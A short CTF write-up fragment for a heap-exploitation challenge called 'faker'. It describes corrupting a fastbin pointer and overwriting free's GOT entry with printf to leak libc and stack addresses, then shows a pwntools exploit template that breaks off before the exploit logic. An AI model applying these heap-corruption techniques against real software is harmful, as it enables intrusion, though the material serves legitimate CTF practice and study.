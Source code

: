 Using the bug we I changed the fd of fastbin to pointer under `stderr pointer on bss` and control the program execution flow. To leak libc i changed free[got] to printf. And keep %p into the data of that chunk. This leaks the libc and stack addresses
Here is my full exploit.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host linker.3k.ctf.to --port 9654 ./linker
from pwn import *
from formatstring import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./faker')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'faker.3k.ctf.to'
port = int(args.PORT or 5231)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x400D6C
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
name_size = 0x0602148

```